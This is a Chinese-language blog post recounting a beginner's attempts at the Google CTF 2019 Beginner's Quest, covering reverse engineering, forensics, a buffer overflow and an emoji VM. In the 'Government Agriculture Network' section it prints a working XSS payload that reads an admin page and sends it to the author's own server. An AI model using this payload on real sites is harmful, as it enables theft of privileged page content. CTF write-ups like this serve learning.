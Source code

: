 ```yaml
---
layout: post
title: Google CTF 2019 初学者挑战之从入门到放弃
author: enh6
categories: blog
---
```


所谓CTF，全称[Capture the Flag](https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security)，是信息安全圈子里玩的一个比赛，以前看新闻注意到过这种活动，觉得很高端的样子。毕竟作为一个程序员，谁没有曾经想成为一个<del>大黑客</del>script kiddie呢？🐶

上周我又偶然看到了Google CTF 2019的新闻，发现有[`Beginner's Quest`](https://capturetheflag.withgoogle.com/#beginners/)，勾起了我的兴趣，于是不禁掺和了一番。

{% include image.html title="google ctf" img="google-ctf.png" caption="题目难度分为最简单，更简单，简单，中等🤔" %}

由于我以前没玩过CTF，所以并不知道要怎么玩，后来进行不下去的时候也参考了别人的write-up。这里我也把过程记录一下吧。

## Enter Space-Time Coordinates

给了一个文件，用记事本打开就能看到有`CTF{welcome_to_googlectf}`字段，然而我并不懂CTF是怎么玩的，不知道这是什么意思。。然后把头几个字节的`hex`搜了一下，发现是个`zip`格式文件。解压后是一个`ELF`可执行文件，程序可以输入坐标，输出坐标是否正确。然后用`objdump`看汇编代码也看不懂逻辑。然后用`strings`看到的还是那几个记事本打开就能看到的字符串。最后试了`CTF{...}`字段，居然还真是这个。。

收获：知道了CTF是怎么玩的了

## Satellite

给了一个`go`写的程序，首先要输入一个正确的名字，用了`go tool objdump`，找到`main`函数跳到`connectToSat`之前的判断的位置`init_sat.go:21`，感觉是输入的字符串和立即数做比较，比较7个字节，分别是`'imso'`，`'mu'`和`'\n'`，但是输入`imsomu`却不对，然后`gdb`调试，打印比较时输入字符串的值，发现是字节序的问题，应该是`osmium`。（后来回头看了题目，直接告诉了名字就是`Osmium`，我尼玛。。。）

输入正确的名字后，会发送网络请求返回一些东西，提示用`wireshark`嗅探，然而我研究搜索了半天也没发现怎么能解密`TLS`加密的内容，只能看到加密的`TLS`包。

后来想到在程序中总能看到拿到的数据吧，重新看汇编，`connectToSat`里用到了`regexp.ReplaceAllStrings`，而且返回的请求会显示一些`******`字样，而`strings`能看到有`CTF{\S{40}}`字符串。猜测是返回的数据包含`CTF{...}`，后来给替换掉了。于是继续`gdb`在`regexp`函数调用前加断点，然后检查压栈传参都传的什么参数，终于看到了替换前的字符串`CTF{4efcc72090af28fd33a2118985541f92e793477f}`。

收获：学到了`gdb`调二进制的一些知识，怎么看汇编指令，怎么看寄存器和内存，怎么汇编指令单步执行。

## Home Computer

这一关就没什么意思了。给了一个`NTFS`的`image`，`mount`了以后发现文件都是空的只有一个`txt`有内容，说是要看`NTFS`的`extended attributes`，但是这玩意儿怎么看呢，搜索一番，安装了取证工具`Sleuth Kit`，是个命令行工具，没搞清用法。于是又装了一个`GUI`叫`Autopsy`，算是能用了，找到了在`extended attributes`里藏的一张图里的`CTF{congratsyoufoundmycreds}`。

收获：无。我对这种取证工具[并没有什么好印象](https://www.google.com/search?q=mfsocket)。

## Government Agriculture Network

给了一个网站，有个admin页面但会跳转到主页，主页有个输入框可以post内容，提交了说admin会审核。研究了半天不知道是干嘛的。。不得已在网上找提示，发现有个人在twitch上直播解题，看了一下录像，才貌似明白了。（其实题目的url也说了是XSS，但我笔记本上Firefox地址栏的长度过短导致没看到，我尼玛。。）

题目的意思是输入可以XSS，admin审核的时候就中招了。但要跨站注入，我得首先有个站，不得已注册了DigitalOcean开了个VPS。还好可以按小时计费，花不了几毛钱，而且新用户也送$50等于免费。<del>（是不是要放个推广返利链接。。🤔）</del>。然后直接`python3 -m http.server 80`完事儿。

试了下`POST`一个`<img>`，确实日志里就能看到有访问。于是注入了下面这个脚本，拿到了admin页面里的`CTF{8aaa2f34b392b415601804c2f5f0f24e}`。

```
<script>
fetch('/admin').then(r => r.text()).then(t => {
var img = new Image();
img.src = 'http://MYSITEIP/' + encodeURIComponent(t);
});
</script>
```

收获：DigitalOcean账户一枚？？？

## STOP GAN (bof)

<del>给了一个MIPS的可执行文件，可以用`qemu`执行。要通过缓冲区溢出把它搞崩。</del>

我寻思这easiest的题目有这么难吗！别人写的write-up看了好几遍，才终于明白题意了，原来给的网址才是需要pwn的本体，给的附件是网址的程序的示意。亏我研究这程序个把钟头，早就能`segfault`但是一直说`could not open flag`。看汇编感觉也是从文件系统里读个玩意儿，但我自己电脑里哪来的这文件呢。

正确的打开方式是用`nc`连给的网址，然后操作。我原来用浏览器打开看了下没看出端倪，还以为只是个提示呢。只要输入一大坨字符就能缓冲区溢出显示`CTF{Why_does_cauliflower_threaten_us}`。

收获：知道了`nc`。

## Work Computer

这关也没啥意思。`nc`连网址，给了一个shell，有个flag文件，但没有`cat`等命令。看了`/bin`和`/usr/bin`，没发现啥可以显示文件内容的。后来懒得研究了，参考网上的write-up，用`tar cvf`命令显示出`CTF{4ll_D474_5h4ll_B3_Fr33}`。

收获：无。

## FriendSpaceBookPlusAllAccessRedPremium.com

这一题还挺有意思的。给了一个emoji组成的程序，一个python写的虚拟机来执行emoji。

执行会输出一个网址，但执行速度巨慢，输出几个字母就卡在那儿了。于是看执行哪里的循环比较多，是倒数第二个emoji代码块。看了好半天，觉得是naive的判断质数的算法，于是把它替换成python的筛法判断素数。这样速度快了不少，能显示出前半个网址。但后半个网址还是显示不出来，执行速度还是太慢了。

又继续看倒数第一个代码块，发现是判断回文数的。而倒数第三块调用了倒数第二和第一块。输出倒数第三个代码块的进出的数据，发现它确实是找第n个回文素数的逻辑，每执行一次，n+1，输出一个字母，只是算法过于naive和暴力🤓。于是我先算出来20000×20000内的回文素数列表，替换掉原有的逻辑，而且换用pypy3提高执行速度，终于能输出整个网址了，拿到`CTF{Peace_from_Cauli!}`。

收获：人肉解码emoji asm能力。。

## Drive to the target

给了一个网站，有一个初始坐标，你可以改动坐标，一步一步走到目的地。但问题是每一次走的距离是有限制的，速度也是有限制的，需要走很多步才行。人肉点击应该是不现实了，于是打开浏览器console，写了下面这个脚本，跑了起来。但跑了好长好长时间也没到目的地，于是再到B站刷几个视频，还没到目的地，再到YouTube刷几个视频，终于结束了，拿到`CTF{Who_is_Tardis_Ormandy}`。

```javascript
var a = +document.getElementsByTagName('input')[0].value;
var b = +document.getElementsByTagName('input')[1].value;
var token = document.getElementsByTagName('input')[2].value;

var n = 1;

function f(a, b, token, idx) {
  fetch("/?lat=" + a + "&lon=" + b + "&token=" + token)
  .then(r => r.text()).then(t => {
    var c = t.split('\n');
    token = c[14].substr(58, 140);
    console.log(a, b, token);
    console.log(c[18]);
    if (c[18].indexOf('closer') > 0 && n == idx) {
      n++;
      setTimeout(() => {f(a, b - 0.001, token, n);}, 5000);
      setTimeout(() => {f(a, b + 0.001, token, n);}, 5000);
      setTimeout(() => {f(a + 0.0005, b, token, n);}, 5000);
      setTimeout(() => {f(a - 0.0005, b, token, n);}, 5000);
    }
  });
}

f(a, b - 0.0001, token, n);
```

收获：Script kiddie称号。

## 完结

此时还有几个分支的题目没有做，但我已经决定放弃🙂。这次算是体验了一把CTF，大概知道了CTF是怎么玩的。我也没打算向信息安全领域发展，那就先这样啦。
